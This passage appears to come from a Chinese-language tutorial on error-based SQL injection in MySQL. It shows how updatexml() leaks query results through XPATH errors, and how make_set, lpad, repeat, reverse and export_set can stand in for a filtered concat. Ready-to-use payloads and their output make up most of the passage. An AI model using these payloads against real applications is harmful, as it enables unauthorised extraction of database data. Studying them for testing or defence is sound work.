 可以用make_set进行替换

```sql
mysql> select updatexml(1,make_set(3,'~',(select user())),1);
```

我们还可以找到类似的函数：lpad()、reverse()、repeat()、export_set()（**lpad()、reverse()、repeat() 这三个函数使用的前提是所查询的值中，必须至少含有一个特殊字符，否则会漏掉一些数据**）。

```sql
mysql> select updatexml(1,lpad('@',30,(select user())),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhostroot@localhostr@'


mysql> select updatexml(1,repeat((select user()),2),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhostroot@localhost'


mysql> select updatexml(1,(select user()),1);
ERROR 1105 (HY000): XPATH syntax error: '@localhost'
mysql> select updatexml(1,reverse((select user())),1);
ERROR 1105 (HY000): XPATH syntax error: '@toor'


mysql> select updatexml(1,export_set(1|2,'::',(select user())),1);
ERROR 1105 (HY000): XPATH syntax error: '::,::,root@localhost,root@localh'
```

